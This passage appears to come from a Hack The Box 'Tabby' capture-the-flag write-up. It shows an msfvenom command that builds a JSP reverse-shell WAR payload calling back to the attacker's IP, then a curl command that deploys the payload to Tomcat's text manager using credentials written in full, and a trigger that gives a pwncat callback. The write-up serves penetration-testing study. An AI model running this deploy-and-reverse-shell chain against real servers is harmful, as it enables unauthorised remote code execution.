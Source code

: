 We'll use `msfvenom` to generate malicious WAR payload which returns reverse shell.


```shell
coldfx@Shockwave:~/htb/tabby$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.9 LPORT=8020 -f war > cfx.war  
Payload size: 1097 bytes
Final size of war file: 1097 bytes
```

#### Deploy Payload

With reference to the [**manager support page**](http://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html#Deploy_A_New_Application_Archive_(WAR)_Remotely), let's deploy our malicious war payload using Text based manager.

![text](/assets/img/Posts/Tabby/text.png)

```shell
coldfx@Shockwave:~/htb/tabby$ curl -u 'tomcat:$3cureP4s5w0rd123!' -T "cfx.war" "http://10.10.10.194:8080/manager/text/deploy?path=/coldfx"
OK - Deployed application at context path [/coldfx]

```

Next, On triggering the application using `curl http://10.10.10.194:8080/coldfx/` we get a call back on our `pwncat` listener:
